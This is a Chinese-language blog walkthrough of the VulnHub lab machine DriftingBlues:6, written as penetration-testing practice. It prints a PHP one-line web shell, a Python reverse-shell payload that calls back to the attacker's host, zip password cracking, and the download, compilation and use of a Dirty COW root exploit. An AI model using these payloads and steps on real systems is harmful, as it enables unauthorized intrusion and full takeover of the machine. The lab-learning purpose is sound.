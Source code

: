 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/rzDPHHXfzuwlnoZ8ulEpwg)

 ![](http://mmbiz.qpic.cn/mmbiz_png/7gUQD4TbLUsGamtQXiblwiaPhT11gUfcWibGaGzbdzpL0N1UGmGdGP78y7DW7sCUOicTibjbBZHrHewj9uP2Tx3yPiaw/0?wx_fmt=png) ** 伏波路上学安全 ** 专注于渗透测试、代码审计等安全技术，分享安全知识. 37篇原创内容   公众号

![图片](https://mmbiz.qpic.cn/mmbiz_png/7gUQD4TbLUukPuvQDFd7kRJ58bx8ibwrJkxkHibI5ECYahIfLmic6qOOVfcGDh8T88YrNLanTHeQajJvqC4ErJZYg/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

靶机信息  

-------

下载地址:

```
https://www.vulnhub.com/entry/driftingblues-6,672/
```

靶场: VulnHub.com

靶机名称: DriftingBlues:6

难度: 简单

发布时间: 2021年3月30日

提示信息:

```
无
```

目标: flag.txt

  

实验环境
----

```
攻击机:VMware kali 192.168.7.3  
  
靶机:Vbox linux IP自动获取
```

信息收集
----

### 扫描主机

扫描局域网内的靶机IP地址

```
sudo nmap -sP 192.168.7.1/24
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

扫描到主机地址为192.168.7.191

### 扫描端口

扫描靶机开放的服务端口

```
sudo nmap -sC -sV -p- 192.168.7.191 -oN 6.nmap
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

只开放了80端口

Web渗透
-----

```
http://192.168.7.191
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

首页信息不多，先做个目录扫描

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.7.191 -x php,html,txt,zip
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

目录扫描还没完成，已经有些收获了，先看看这些内容

```
wget http://192.168.7.191/robots.txt
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

有个目录，访问看看

```
http://192.168.7.191/textpattern/textpattern
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

是一个cms程序 ，稍后再对他进行目录扫描，下载压缩包

Zip密码破解
-------

```
wget http://192.168.7.191/spammer.zip
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

下载完成解压

```
unzip spammer.zip
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

有密码，我们来尝试暴破密码

```
fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u spammer.zip
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

拿到密码，解压查看

```
unzip spammer.zip  
cat creds.txt
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

creds.txt文件里的内容看起来像是用户名和密码，试试能不能登录后台

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

登录成功，弹出一个时区错误的提示，不知道有没有用，先进里面看看

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

登录后直接是写文章的页面，这个cms程序没有接触过，看看这个CMS有什么功能

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

有个文件上传，试了一下任何文件都可以上传，上传个一句话木马，

yijuhua.hp

```
<?php system($_GET['haha']);?>
```

文件传上去了，但不知道传到哪个目录。对textpattern目录做个扫描

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.7.191/textpattern -x php,html,txt,zip
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

找到一个files目录，访问看看

```
http://192.168.7.191/textpattern/files/
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

果然是文件上传目录，可以访问了

```
http://192.168.7.191/textpattern/files/yijuhua.php?haha=id
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

可以执行命令，反弹shell到kali攻击机上

1。kali攻击机监听4444端口

```
nc -lvvp 4444
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

2。执行反弹payload

```
http://192.168.7.191/textpattern/files/yijuhua.php?haha=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.7.3",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

反弹成功，先切换到交互型shell再找一下敏感信息

```
python -c 'import pty;pty.spawn("/bin/bash")'  
export TERM=xterm  
Ctrl+z快捷键  
stty -a  
stty raw -echo;fg  
reset
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

脏牛漏洞提权
------

```
uname -a
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

按习惯执行了sudo 和查找suid后都没有发现提权信息，执行了uname 命令，发现版本是3.2.78这个版本好像是有漏洞，我们去查一下

```
searchsploit linux 3.2.78
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

我们随便挑一个提权的，测试几个后发现40389.c有效

下载exp

```
searchsploit -m 40839.c
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

把exp上传到靶机上，编译后执行

1。kali攻击机开启http服务

```
python3 -m http.server
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

2。靶机下载exp文件

```
cd /tmp  
wget http://192.168.7.3:8000/40839.c
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

按照exp文件内的提示信息编译文件

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

```
gcc -pthread 40839.c -o dirty -lcrypt  
ls
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

编译完成，执行exp

```
./dirty
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

执行期间让我们输入一个新的密码，之后便会创建firefart用户，这个用户有root权限，现在切换到这个用户(注意：程序执行时会卡住不动，我是按了ctrl+c键结束后重新反弹shel再切换到firefart用户)

```
su firefart
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

提权成功，找一下flag

```
cd空格  
pwd  
ls  
cat flag.txt
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

拿到flag.txt，游戏结束  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

END

  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

**这篇文章到这里就结束了,喜欢打靶的小伙伴可以关注"伏波路上学安全"微信公众号,或扫描下面二维码关注,我会持续更新打靶文章,让我们一起在打靶中学习进步吧.**

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)